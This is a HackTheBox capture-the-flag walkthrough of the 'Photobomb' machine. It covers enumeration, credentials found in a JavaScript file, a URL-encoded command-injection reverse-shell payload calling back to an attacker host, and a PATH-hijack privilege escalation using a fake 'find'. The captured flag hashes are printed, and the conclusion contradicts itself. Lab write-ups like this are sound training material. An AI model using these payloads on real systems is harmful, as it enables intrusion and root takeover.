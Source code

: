```yaml
---
title: "CTF: Photobomb"
categories:
  - HTB
  - Writeups
---
```


The HackTheBox weekly machine named Photobomb was relatively easy to exploit. 

The first step involved discovering the login credentials by analyzing a JavaScript file. Once I gained access to an image manipulation panel using the credentials, I identified a command injection vulnerability and leveraged it to obtain execution and a shell. The privilege escalation phase was accomplished by executing a script as root, and there were two ways to achieve this. The first method involved exploiting a find command that was called without the full path, while the second method involved taking advantage of a disabled Bash builtin.

The machine [HTB - Photobomb](https://app.hackthebox.com/machines/500)


## Enumeration

```bash
┌──(root㉿kali)-[~]
└─# nmap -sV -sC 10.10.11.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-27 21:53 EST
Nmap scan report for 10.10.11.182
Host is up (0.028s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.83 seconds
```

Looks like ports [22, 80] are Open.

To take a look at T80 we should add our an entry to `/etc/hosts`.
```
┌──(root㉿kali)-[~]
└─# echo "10.10.11.182 photobomb.htb" >>/etc/hosts
```

![image](https://user-images.githubusercontent.com/29680216/221742245-98cf98fe-9d8f-47b1-8d36-abcaf89a3d63.png)

Clicking the `click here!` redirects to a page `/printer` which requires creds.

![image](https://user-images.githubusercontent.com/29680216/221742383-a7ee84aa-b3cb-4ee0-9ff3-0ec9d2633c34.png)

Manually inputing some creds showed no promise, but looking at the page source it looks to have a script it loads at the beginning of the page: `photobomb.js`.

Source: `photobomb.js`

![image](https://user-images.githubusercontent.com/29680216/221743317-817dd3e5-77e3-4eb5-8791-b33e6876127b.png)

Looks there's a possible username/password in the href.

![image](https://user-images.githubusercontent.com/29680216/221743975-e884e8a4-86c1-4c96-8258-b33b06139b7e.png)

Opening that URL looks to have let us login to the page.

![image](https://user-images.githubusercontent.com/29680216/221744204-3b16a0a9-8c48-4f74-a0ed-380b45a00b37.png)

Seems to have nothing of interest, but at the bottom there's a section for downloading an image.

![image](https://user-images.githubusercontent.com/29680216/221744437-e3a4b29a-8812-4b7e-93eb-55728b3e2561.png)

Using Burp Suite we can intercept when seeing what this button does.

![image](https://user-images.githubusercontent.com/29680216/221745177-15fb505c-8d94-4cad-95a8-2070664d309d.png)


## Exploitation

Using the below payload injection seems we were able to establish a shell.
- `[LHOST]` your local host.
- `[LPORT]` your local port.

```
%3bexport+RHOST%3d"[LHOST]"%3bexport+RPORT%3d[LPORT]%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'
```

Before sending the payload, ensure you're listening on the port above.

![image](https://user-images.githubusercontent.com/29680216/221747141-ae1063aa-9692-4d98-95c5-d4063fcbe7cf.png)

Bingo.

![image](https://user-images.githubusercontent.com/29680216/221747683-4ecaa6d7-6073-4687-9538-062c02926472.png)

Now we need to get ourselves a shell, so we must spawn one.

```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
wizard@photobomb:~/photobomb$ 
```

Bet. Now that we have a user shell, looks that we have a our first flag.

```
wizard@photobomb:~/photobomb$ ls ~/
ls ~/
photobomb  user.txt
wizard@photobomb:~/photobomb$ cat ~/user.txt    
cat ~/user.txt
a43c08bd49e712707dc3b67c766371d2
```

Now... Let's see what permissions we're working with.

```
wizard@photobomb:~/photobomb$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~/photobomb$ 
```

It looks like there's a script we can run as root: `/opt/cleanup.sh`. Seems we have read rights to view the contents of the script.

```
wizard@photobomb:~/photobomb$ ls -la /opt/cleanup.sh
ls -la /opt/cleanup.sh
-r-xr-xr-x 1 root root 340 Sep 15 12:11 /opt/cleanup.sh
```

Taking a peak that the scripts contents 

```
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

We can try to overwrite the `find` script and bypass roots `PATH` so that it uses our modfied script to give us a root shell.
```
wizard@photobomb:~/photobomb$ echo "bash" > find
echo "bash" > find
wizard@photobomb:~/photobomb$ chmod +x find
chmod +x find
wizard@photobomb:~/photobomb$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# 
```

Solid. Now we have the root flag.

```
root@photobomb:/home/wizard/photobomb# ls ~/
ls ~/
root.txt
root@photobomb:/home/wizard/photobomb# cat ~/root.txt   
cat ~/root.txt
78dfb63bc7a8d3a0ddd4a6495c723c86
root@photobomb:/home/wizard/photobomb# 
```


## Conclusion

This was a fun box. I enjoyed the manual enumeration and the exploitation. I'm not sure if this was intended, but I was able to get a root shell without having to modify the `find` script. I was able to overwrite the `find` script and then run the `sudo` command with the `PATH` set to the current directory. This allowed me to run my modified `find` script and get a root shell.

Lastly, **Hack the Planet**!